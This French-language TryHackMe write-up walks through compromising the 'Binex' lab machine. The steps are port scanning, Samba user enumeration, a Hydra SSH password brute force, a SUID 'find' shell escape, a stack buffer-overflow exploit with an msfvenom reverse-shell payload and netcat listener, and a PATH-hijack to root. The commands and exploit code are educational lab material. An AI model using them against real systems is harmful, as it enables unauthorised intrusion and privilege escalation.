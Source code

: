 # TryHackMe – Binex

**Objectif** : exploiter la machine **Binex**  de TryHackMe pour récupérer les flags utilisateur et root, en passant par plusieurs techniques d'escalade.

---

## 1. Reconnaissance initiale

1. **Scan des ports** :

   ```bash
   nmap -Pn -p- $IP_CIBLE
   ```

   Ports ouverts : 22 (SSH), 139 & 445 (Samba).

2. **Scan approfondi** :

   ```bash
   sudo nmap -sV -sC -p 22,139,445 $IP_CIBLE
   ```

   - SSH : OpenSSH 7.6p1 Ubuntu (protocol 2.0)
   - Samba : smbd 3.x–4.x & 4.7.6-Ubuntu (workgroup -> WORKGROUP)
   - Message signing SMB activé mais non requis (risqué)

---

## 2. Énumération Samba & utilisateurs

1. **Listing des partages** :

   ```bash
   smbclient -L $IP_CIBLE -N
   ```

   Partages visibles : `print$`, `IPC$` (pas d'accès invité).

2. **RID cycling** avec `enum4linux` :

   ```bash
   ./enum4linux -a $IP_CIBLE
   ```

   > Utilisateurs découverts : kel, des, tryhackme, noentry.

---

## 3. Bruteforce SSH (user tryhackme)

1. **Hydra + rockyou.txt** :

   ```bash
   hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://$IP_CIBLE
   ```

   Mot de passe trouvé pour `tryhackme` !

2. **Connexion SSH** :

   ```bash
   ssh tryhackme@$IP_CIBLE
   ```

---

## 4. Escalade SUID → utilisateur des

1. **Recherche SUID** :

   ```bash
   find / -type f -perm -u=s 2>/dev/null
   ```

   Binaire notable : `/usr/bin/find` (SUID, propriétaire : `des`).

2. **Shell en tant que des** :

   ```bash
   /usr/bin/find . -exec /bin/sh -p \; -quit
   ```

   ```bash
   id  # uid=1001(des)
   cat /home/des/flag.txt
   ```

---

## 5. Buffer overflow → utilisateur kel

1. **Génération du pattern** :

   ```bash
   pattern_create.rb -l 2000 > pattern.txt
   ```

   Transfert :

   ```bash
   scp pattern.txt des@$IP_CIBLE:/home/des/
   ```

2. **Trouver l'offset** avec GDB :

   ```bash
   gdb /home/des/bof
   run < pattern.txt
   info reg  # RBP=0x4134754133754132 → offset 608 + 8 = 616
   ```

3. **Choisir l'adresse de retour** :

   ```bash
   run < <(python3 -c "print('A'*800)")
   x/100x $rsp
   ```

   Adresse retenue : `0x7fffffffe32c`.

4. **Shellcode** :

   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP_kali> LPORT=4444 -b '\x00' -f python
   ```

5. **Exploit** :`exploit.py`

   ```python
   from struct import pack
   payload_len = 616
   nop = b"\x90"*300
   rip = 0x7fffffffe32c
   buf = b"..."  # shellcode
   padding = b"A"*(payload_len - len(nop) - len(buf))
   payload = nop + buf + padding + pack("<Q", rip)
   print(payload)
   ```

6. **Exécution** :

   ```bash
   python3 exploit.py > exploit.bin
   nc -lvnp 4444 &
   ./bof < exploit.bin
   ```

   Shell `kel` obtenu, puis :

   ```bash
   cat /home/kel/flag.txt
   ```

---

## 6. Escalade finale : PATH Hijacking → root

1. **Analyse du binaire** :

   ```c
   // exe.c
   setuid(0); 
   setgid(0);
   system("ps");
   ```

2. Création d'un faux \*\*`` :

   ```bash
   export PATH=/tmp:$PATH
   echo "/bin/bash -p" > /tmp/ps
   chmod +x /tmp/ps
   ./exe
   ```

   Vous êtes root → `cat /root/root.txt`

---

## Conclusion

- **Étapes clés** : SSH → SUID → buffer overflow → PATH hijack
- **Bonnes pratiques** : vérifier SUID, connaître gtfobins, maîtriser buffer overflow, profiter des failles PATH.

---

**Auteur :** Saad Idrissi
